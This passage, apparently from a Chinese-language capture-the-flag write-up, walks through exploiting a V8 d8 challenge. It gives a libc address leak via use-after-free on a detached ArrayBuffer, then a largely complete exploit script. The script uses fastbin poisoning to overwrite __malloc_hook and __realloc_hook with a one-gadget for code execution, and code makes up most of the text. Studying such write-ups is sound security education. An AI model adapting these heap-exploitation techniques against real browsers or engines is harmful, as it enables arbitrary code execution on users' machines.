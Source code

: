 ```
d8> %DebugPrint(b.buffer);
DebugPrint: 0x3ed5080c2b1d: [JSArrayBuffer]
 ...
 - backing_store: 0x5555556ff2b0
 - byte_length: 2048
 - detachable
 ...
```

看起來是從 a 的  `data_ptr` copy 256 個 elements 到 b 的 buffer (`0x5555556ff2b0`) 當中。

而因為 `JSArrayBuffer` 的 `backing_store` 指向的 memory region 是由 glibc 原生的 `malloc()` 所分配，以 `new BigUint64Array(0x100)` 為例子，會分配 8 * 0x100 也就是 0x800 大小的空間給 `backing_store`，因此在被 free 後會被放進 unsortbin，而 unsortbin 的 fd / bk 會指向下一個 chunk，最舊的一塊的 `bk` 會指向 main_arena。

leak libc POC：

```js
let a = new BigUint64Array(0x100);
let b = new BigUint64Array(0x100);
%ArrayBufferDetach(a.buffer);
b.set(a);
let libc = b[1] - 0x3ebca0n;
```

拿到 libc 後，由於能透過 `c.set(d)` 的方式做 UAF edit，因此就是利用 heap 做常見的打法，不過因為 `new ArrayBuffer()` 是用 `calloc()`，拿不到 tcache，因此只能用 fastbin poison 改寫 `__malloc_hook` 成 `realloc()` 來調整 stack，寫  `__realloc_hook`  成 one gadget，exploit 如下：

```js
let a = new BigUint64Array(0xaaa); 
let b = new BigUint64Array(0xaaa);
%ArrayBufferDetach(a.buffer);
b.set(a);
let libc = b[1] - 0x3ebca0n;
let _system = libc + 0x4f550n;
let __malloc_hook = libc + 0x3ebc30n;
let realloc = libc + 0x98d70n + 8n;
let og = libc + 0x4f432n;
console.log("libc: 0x" + libc.toString(16));

// one gadget list
let og_buf = new ArrayBuffer(0x10);
let og_ta = new Uint8Array(og_buf);
for (var i = 0n; i < 8n; i++)
    og_ta[i] = Number((og >> i*8n) & 0xffn);
for (var i = 0n; i < 8n; i++)
    og_ta[i + 8n] = Number((realloc >> i*8n) & 0xffn);

// fill tcache
// because array allocation use calloc()
let owo = []
for (var i = 0n; i < 0x8n; i++)
    owo.push(new ArrayBuffer(0x60));

let cc = new ArrayBuffer(0x60);
let c = new BigUint64Array(cc);
let dd = new ArrayBuffer(0x60);
let d = new BigUint64Array(dd);

d[0] = __malloc_hook - 0x23n;

for (var i = 0; i < 0x6; i++)
    %ArrayBufferDetach(owo[i]);

%ArrayBufferDetach(c.buffer);
```